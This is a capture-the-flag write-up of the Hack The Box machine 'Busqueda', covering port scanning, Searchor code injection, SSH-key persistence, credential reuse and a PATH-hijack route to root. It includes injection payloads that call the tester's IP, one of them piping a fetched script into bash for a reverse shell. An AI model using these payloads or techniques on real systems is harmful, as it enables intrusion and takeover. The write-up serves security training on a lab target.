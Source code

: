 ![Busqueda](https://labs.hackthebox.com/storage/avatars/a6942ab57b6a79f71240420442027334.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [kavigihan](https://app.hackthebox.com/users/389926)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---















- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.208 -oG scan
	/opt/extractports scan
	nmap -p22,80 -sCV -Pn 10.10.11.208 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/3d910ae7-1d83-4737-a0de-bc817d944004)

- I found the domain `searcher.htb` and add it to the `hosts` file
- Upon entering the page I find that it is running Searchor 2.4.0. Searching for information about it I find a vulnerability reported in [CVE-2023-43364](https://nvd.nist.gov/vuln/detail/cve-2023-43364). This CVE indicates a vulnerability that allows an RCE.

- I start by running a test to validate that this CVE works. I add code to make a GET request to a server that I set up locally. I observe that when I send the request I receive in my server the call. With this I validate that it works correctly and I can exploit it.

	```python
	', exec("import os;os.system('curl http://10.10.14.19/pepe');"))#
	```

	![image](https://github.com/user-attachments/assets/9df9e6ab-41f1-445e-9a9e-672edcd8d92f)

- I use [pentestmonkey's revershell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to set up a reverse shell. Thanks to this I can move through the system files and read the first flag.
	
	```python
	', exec("import os;os.system('curl http://10.10.14.19/rever.sh | bash -i');"))#
	```
	
	![image](https://github.com/user-attachments/assets/046b62f0-9105-4cc8-97d4-c020ddb69a1a)

- To make it easier for me to persist in the system, I create an ssh key and add my public key to the authorized_keys file.

	```python
	ssh-keygen -f key
	cat key.pub
	echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /home/svc/.ssh/authorized_keys
	ssh -i key svc@10.10.11.208
	```

- When consulting the ports in use on the system I find several that are not accessible from the outside. I share them via ssh to consult them from my machine.
	
	![image](https://github.com/user-attachments/assets/4dbdb929-c06f-4b33-ab07-a1340b24bd17)
	
	```python
	ssh -L 3000:127.0.0.1:3000 -L 5000:127.0.0.1:5000 -L 3306:127.0.0.1:3306 -L 44409:127.0.0.1:44409 -L 222:127.0.0.1:222 -i key svc@10.10.11.208
	```

- In one of the ports I see that gitea is running. First I have to add to the hosts file the domain.
- When searching in the gitea files I find a file containing the credentials of a user.

	![image](https://github.com/user-attachments/assets/e748bbe8-e80d-4850-ba8a-981170978f62)

- I validate if the password found belongs to any user other than cody and I see that it is the svc password. The user we previously had control with a shell. 
- I list which commands you can run with sudo without providing a password and find a python file.

	![image](https://github.com/user-attachments/assets/10218027-d7c0-4055-88ae-0e803d03e057)

- With this python file I can execute several docker commands. One of them is docker-inspect which allows me to see the container configuration.

	![image](https://github.com/user-attachments/assets/7b067b1e-cdc6-409d-aea5-35607d798b94)

- When consulting the configuration of the mysql_db container I find some passwords with which I can connect to mysql

	```python
	sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' mysql_db
	```
	
	![image](https://github.com/user-attachments/assets/d3e47eb0-c76e-4910-9215-c1e987ba8598)

- Inside mysql I can't find anything relevant. I check the password reuse and validate that it is the same as the one used by administrator in gitea. This allows me to consult its repository that contains the source code of this application that I can run as root thanks to sudo.

- Looking at the source code I find that in most cases absolute paths are used except when executing full-checkup.
	
	![image](https://github.com/user-attachments/assets/e425f4af-98c9-461a-bcc8-4188b29ff1c2)
	
- I look at the user's PATH and create a file in the first directory that I have write permissions a full-checkup.sh file containing a script that allows me to escalate my privileges.

	![image](https://github.com/user-attachments/assets/5a0c5e51-f356-4870-8e45-f755d2ef3f9e)

	```python
	sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
	```

- I run the program and get my script to run. This allows me to launch a new terminal as root and read the second flag.

	![image](https://github.com/user-attachments/assets/3fec9123-0dbb-472e-972b-0f1a53bb0826)
